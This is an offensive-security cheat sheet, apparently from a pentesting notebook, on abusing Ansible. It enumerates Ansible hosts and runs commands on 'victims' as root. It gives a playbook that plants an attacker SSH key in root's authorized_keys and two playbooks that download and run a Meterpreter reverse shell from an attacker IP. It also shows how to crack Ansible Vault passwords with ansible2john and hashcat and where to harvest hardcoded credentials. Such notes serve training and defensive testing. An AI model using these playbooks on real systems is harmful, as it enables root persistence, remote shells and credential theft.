 # Ansible

### Enumerating Ansible

* Is Ansible in use? (Server)

```
ansible

ls /etc/ansible

grep ansible /etc/passwd
```

* Identify Ansible nodes (Client)

```
grep ansible /etc/passwd
```

### Attack Vectors

* Initiated from server
* ad-hoc commands
* playbooks
* Running ansible commands

```
su ansibleadm

ansible victims -a "whoami" 
```

* running as root the name victims comes from the /etc/ansible/hosts file so adjust as needed

```
ansible victims -a "whoami" --become
ansible appservers -a "whoami"
```

## Ansible Playbooks&#x20;

* Running playbooks

```
ansible-playbook [playbookname.yml]
```

## Exploiting Playbooks

### root

* run playbooks as the ansible user

### not root

* search for hardcoded creds in playbooks
  * ansible\_become\_pass
  * /var/log/syslog | grep for pass

## Adding tasks if writable

```
- name: Get system info
	hosts: all
	gather_facts: true
	become: yes
	tasks:
		- name: Display info
		  debug:
			msg: "The hostname is {{ ansible_hostname }} and the OS is {{ansible_distribution }}"

		- name: Create a directory if it does not exist
			file:
				path: /root/.ssh
				state: directory
				mode: '0700'
				owner: root
				group: root
				
		- name: Create authorized keys if it does not exist
			file:
				path: /root/.ssh/authorized_keys
				state: touch
				mode: '0600'
				owner: root
				group: root
				
		- name: Update keys
			lineinfile:
				path: /root/.ssh/authorized_keys
				line: "ssh-rsa AAAAB3NzaC1...Z86SOm..."
				insertbefore: EOF
				
				
```

* Reverse Meterpreter

```
- name: Meterpreter reverse tcp
  hosts: linuxvictim
  gather_facts: true
  become: yes
  become_user: root
  tasks:
  - name: Run command
    shell: "mkdir /tmp/shell"
    async: 10
    poll: 0
  - name: Run command
    shell: "wget http://192.168.X.Y/final.out -P /tmp/shell/"
    async: 10
    poll: 0
  - name: Run command
    shell: "chmod +x /tmp/shell/final.out "
    async: 10
    poll: 0
  - name: Run command
    shell: "/tmp/shell/final.out &"
    async: 10
```

* or

```
- name: Meterpreter reverse tcp
  hosts: linuxvictim
  gather_facts: true
  become: yes
  become_user: root
  tasks:
  - name: Run command
    shell: "mkdir /tmp/shell && wget http://192.168.X.Y/final.out -P /tmp/shell/ && chmod +x /tmp/shell/final.out && /tmp/shell/final.out &"   
    async: 10
    poll: 0
```



## Ansible Vault&#x20;

* Copy encrypted password

![](<../../.gitbook/assets/image (172).png>)

* use ansible2john.py
* returns string for hashcat to use

```
python3 /usr/share/john/ansible2john.py ./test.yml > ans2johnhash.txt
```

* copy string into testhash.txt
* then run hashcat

```
hashcat testhash.txt --force --hash-type=16900 /usr/share/wordlists/rockyou.txt
```

* copy original vault string to text file and use ansible-vault decrypt with the discovered password

```
cat pw.txt | ansible-vault decrypt
```

### Ansible Data Leakage

* leak to /var/log/syslog
* Cleartext in playbooks
* unless nolog is set in the playbook
